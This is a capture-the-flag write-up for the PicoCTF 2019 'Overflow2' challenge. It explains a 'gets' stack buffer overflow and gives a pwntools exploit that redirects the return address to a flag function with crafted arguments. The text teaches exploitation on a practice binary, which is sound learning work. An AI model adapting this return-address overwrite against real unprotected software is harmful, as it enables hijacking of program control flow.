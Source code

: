 # PicoCTF 2019 - Binary Exploit - Overflow2

Similar to Overflow1 except that we have to overwrite the return address and pass 2 arguments to the flag function

## The Vulnerability
It calls 'gets', a function that is known to be very dangerous (according to the documentation this function should never be used) The reason this function is dangerous is because of how it works: 'gets(char \*s) reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0'). No check for buffer overrun is performed, so it keeps reading input, even if this is larger than the amount of memory allocated for that string causing it to overwrite values from the stack.

## File info
```
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=80e23ef08eb912fde3fc2f7ff2148e0e62960080, not stripped
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ checksec vuln
[*] '/home/sain/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit it

The exploit itself will work just like Overflow1 except that we have to find out where to put the arguments on the stack.

If we look at the disassembly of 'flag' we can see it gets the args from `ebp+0x8` & `ebp+0xc`

source c:
```c
if (arg1 != 0xDEADBEEF)
	return;
if (arg2 != 0xC0DED00D)
	return;
printf(buf);
```

disassembly:

![picture alt](https://i.gyazo.com/c00092c0725b3ddaf7c4e3d6de9a1959.png)

Okay now that we have an idea of where we have to go with the arguments let's get to the buffer overflow part

First of all we know our buffersize is 176
If we fill up that buffer with 'A' our stack looks something like this:

![picture alt](https://i.gyazo.com/dfb59969aa2e28b538845eac4f7f7f6c.png)

Our return address is again 12 bytes after our buffer `0x0804871c` -> main+103

and our flag is located at `0x080485e6`
so now we can do a small test to see the stack inside our flag function and see where we need to input the arguments

input here was: `python -c "'A' * 176 + 'B' * 12 + '\xe6\x85\x04\x08'"`

![picture alt](https://i.gyazo.com/81a7107a62a00f4d79a807e8e699b853.png)

As you can see there are 4 empty bytes in between our buffer and `ebp+0x8`
so we have to modify our input a bit by adding 4 more bytes to our payload; behind the flag address

and then finally after those 4 we can put in the values it compares to in the disassembly

first argument: `0xdeadbeef` 
and second argument: `0xc0ded00d`

now that we got all that down our exploit script looks something like:

```python
from pwn import *

buff = "A" * 176 + "B" * 12
buff2 = "C" * 4

flag_loc = util.packing.p32(0x080485e6)
flag_arg1 = util.packing.p32(0xdeadbeef)
flag_arg2 = util.packing.p32(0xc0ded00d)

payload = buff
payload += flag_loc
payload += buff2
payload += flag_arg1
payload += flag_arg2

online = True

if online:
	file_loc = "/problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln"
	p = process(file_loc)
else:
	p = process("./vuln")

p.recvuntil("Please enter your string: \n")
p.sendline(payload)
print p.recvall()
```
